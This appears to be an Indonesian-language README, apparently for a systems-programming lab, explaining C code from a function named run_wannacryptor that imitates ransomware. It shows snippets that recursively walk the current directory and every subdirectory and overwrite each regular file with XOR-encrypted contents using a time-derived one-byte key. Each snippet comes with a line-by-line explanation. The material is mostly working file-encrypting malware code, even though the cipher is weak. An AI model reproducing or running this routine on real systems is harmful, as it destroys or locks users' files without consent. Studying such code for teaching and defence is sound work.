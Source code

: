 ### 1. Bagian: Enkripsi
### Fungsi:
Mengenkripsi semua file reguler di direktori saat ini dan subdirektorinya menggunakan metode XOR dengan 1-byte key. Hasil enkripsi dicatat ke file log.

### Penjelasan Kode:
#### 1.a **run_wannacryptor()**  
 ```bash
 char cwd[PATH_MAX];
 if (!getcwd(cwd, sizeof(cwd))) return;
 unsigned char key = (unsigned char)(time(NULL) % 256);
 encrypt_recursive(cwd, key, cwd);
 ```
   - getcwd(cwd, sizeof(cwd)) → Mengambil direktori kerja saat ini.
   - time(NULL) % 256 → Membuat 1-byte key enkripsi dari waktu saat ini
   - encrypt_recursive(...) → Memulai proses enkripsi secara rekursif.

#### 1.b **encrypt_recursive()** 
 ```bash
 DIR *dir = opendir(dir_path);
 if (!dir) return;

 while ((entry = readdir(dir)) != NULL) {
    if (strcmp(entry->d_name, ".") == 0 || strcmp(entry->d_name, "..") == 0) continue;

    snprintf(fullpath, PATH_MAX, "%s/%s", dir_path, entry->d_name);
    if (stat(fullpath, &st) == -1) continue;

    if (S_ISDIR(st.st_mode)) {
        encrypt_recursive(fullpath, key, cwd);
    } else if (S_ISREG(st.st_mode)) {
        xor_encrypt_file(fullpath, key, cwd);
    }
 }
 closedir(dir);
 ```
   - readdir → Baca semua isi direktori.
   - strcmp → Melewatkan entri . dan ...
   - snprintf → Buat path lengkap ke file/folder.
   - stat → Ambil info jenis file.
   - S_ISDIR → Jika direktori → rekursif lagi.
   - S_ISREG → Jika file biasa → enkripsi.

#### 1.c **xor_encrypt_file()**  
 ```bash
 FILE *fp = fopen(filename, "rb+");
 if (!fp) return;

 fseek(fp, 0, SEEK_END);
 long size = ftell(fp);
 rewind(fp);

 unsigned char *buffer = malloc(size);
 fread(buffer, 1, size, fp);
 rewind(fp);

 for (long i = 0; i < size; i++) {
     buffer[i] ^= key;
 }

 fwrite(buffer, 1, size, fp);
 fclose(fp);
 free(buffer);
 ```